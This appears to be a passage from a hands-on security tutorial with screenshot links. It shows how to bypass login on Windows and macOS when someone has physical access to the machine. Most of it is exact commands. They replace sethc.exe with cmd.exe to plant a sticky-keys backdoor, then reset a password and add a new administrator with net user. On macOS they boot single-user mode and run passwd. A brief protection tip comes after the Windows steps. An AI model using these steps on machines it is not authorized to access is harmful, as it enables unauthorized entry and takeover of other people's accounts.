 ![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/eb515b06-4f36-45e3-b74e-5aa189d42d8c/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/eb515b06-4f36-45e3-b74e-5aa189d42d8c/Untitled.png)

Then troubleshoot

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f63a2359-8fd8-4a42-a4d5-2b90bd2e07f1/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f63a2359-8fd8-4a42-a4d5-2b90bd2e07f1/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/338dfae4-924b-464a-9a6a-314f58fc7b89/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/338dfae4-924b-464a-9a6a-314f58fc7b89/Untitled.png)

Then finally command prompt

In the CMD window, type these commands:
**cd c:\windows\system32\
 copy sethc.exe sethc_old.exe
copy cmd.exe sethc.exe**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a6e99c50-ef63-43c3-a438-711a54488e45/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a6e99c50-ef63-43c3-a438-711a54488e45/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/394a4e8c-2db3-4395-9963-885de257059f/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/394a4e8c-2db3-4395-9963-885de257059f/Untitled.png)

Now instead of having this popup for the shifts key you will have a command prompt !

Restart computer. At the login screen where you enter your
password, press the **Shift** key five times. CMD window appears.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0bde7f13-58bc-46d9-85e5-1b48d00c1545/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0bde7f13-58bc-46d9-85e5-1b48d00c1545/Untitled.png)

To change your existing password, type:
**net user [ironman][jarvis]**
To add a new user and promote to Administrator:

**net user [ironman][jarvis] /add
net localgroup administrators ironman /add**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c7b4b238-27d2-4f07-84b0-ca074c2720ef/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c7b4b238-27d2-4f07-84b0-ca074c2720ef/Untitled.png)

**If you want to protect your computer for this attack please do this :**

Nerver leave your computer unattended
Change your BIOS settings to require a password to change the boot order or the boot device.

Hands-on : Exact same thing but this time with macOS

• On the login prompt press (**Command+S**)

• At the Terminal, type **clear** to clear the screen, then:

**/sbin/fsck –fy
/sbin/mount -uw /
launchctl load /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3cde2b42-3fd7-47e0-b93a-a1d20afae758/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3cde2b42-3fd7-47e0-b93a-a1d20afae758/Untitled.png)

**passwd**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/478ff7ca-dcb9-4932-892e-b2fa428277a4/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/478ff7ca-dcb9-4932-892e-b2fa428277a4/Untitled.png)
